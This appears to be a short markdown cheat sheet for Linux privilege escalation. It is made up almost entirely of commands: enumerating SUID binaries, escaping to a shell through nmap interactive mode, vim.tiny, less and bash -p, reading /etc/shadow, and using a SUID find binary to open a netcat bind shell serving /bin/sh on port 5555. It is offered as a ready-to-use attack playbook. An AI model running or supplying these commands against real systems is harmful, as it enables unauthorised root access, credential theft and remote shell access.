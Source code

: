 
# Privillege Escalation

### ry the obvious - Maybe the user can sudo to root:

`sudo su`

### List all SUID files 

`find / -perm -4000 2>/dev/null`

`find / -user root -perm -4000 -print 2>/dev/null`

`find / -perm -u=s -type f 2>/dev/null`

`find / -user root -perm -4000 -exec ls -ldb {} \;`

Nmap version [2.02 - 5.21]

`nmap -V`

`nmap --interactive`

`nmap> !sh`


### Performing privilege escalation by misconfigured SUID

#### Find

`touch kitsun3sec` && `find kitsun3sec -exec whoami \;`

if root

`find kitsun3sec -exec netcat -lvp 5555 -e /bin/sh \;`

#### vim.tiny 

` vim.tiny /etc/shadow `

```
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```

#### Bash

`bash -p`

`whoami`

#### Less

```
less /etc/passwd
!/bin/sh
```
